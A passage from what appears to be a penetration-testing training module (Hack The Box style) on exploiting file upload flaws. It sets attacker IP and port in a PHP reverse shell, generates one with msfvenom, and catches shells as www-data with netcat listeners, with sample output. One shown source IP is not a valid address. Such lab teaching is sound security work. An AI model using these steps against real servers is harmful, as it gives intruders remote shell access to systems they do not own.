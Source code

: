 Code: php

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

&#x20; Upload Exploitation

```shell-session
AbdulrahmanTamim@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

***

### Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

&#x20; Upload Exploitation

```shell-session
AbdulrahmanTamim@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

&#x20; Upload Exploitation

```shell-session
AbdulrahmanTamim@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

